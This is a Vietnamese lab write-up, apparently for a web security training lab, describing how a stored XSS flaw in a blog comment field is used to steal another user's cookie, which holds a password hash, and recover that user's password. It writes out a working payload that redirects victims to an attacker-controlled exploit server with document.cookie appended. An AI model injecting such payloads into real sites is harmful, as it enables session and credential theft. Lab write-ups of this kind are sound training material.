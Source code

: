 ![](img/38.png)
### Giải quyết 
- Phòng thí nghiệm lưu hàm băm mật khẩu người dùng trong cookie và nó chứa lỗ hổng XSS trong chức năng nhận xét. 
- Trước hết sẽ sử dụng tài khoản được cung cấp để phân tích cookie được lưu trữ và vị trí trường chứa lỗ hổng XSS.
- Đầu tiên, phân tích cookie:
![](img/39.png)
![](img/40.png)
- Vị trí chứa lỗ hổng XSS: trường nhận xét - Comment
![](img/41.png)
![](img/42.png)
- Để lấy được cookie của người dùng khác, tiếp theo cần inject 1 payload chuyển hướng người dùng kèm cookie đến 1 web khác mà mình có thể kiểm soát được nhật ký truy cập. Ở đây có exploit server của Burpsuite. Payload: `<script>document.location='https://exploit-0a700032048d2babc4575d4501e100a8.exploit-server.net/'+document.cookie</script>`
- Ở tài khoản hiện tại khi quay trở lại blog sẽ bị chuyển hướng sang server exploit
![](img/43.png)
- Xem nhật ký truy cập của exploit server có thể thấy 2 người dùng đã bị chuyển hướng 1 là của tài khoản được cung cấp vừa truy cập, 2 là của carlos.
![](img/44.png) 
- Giải mã cookie lấy mật khẩu tài khoản carlos và hoàn thành nốt yêu cầu của lab.
![](img/45.png)
![](img/46.png)
###### Solved!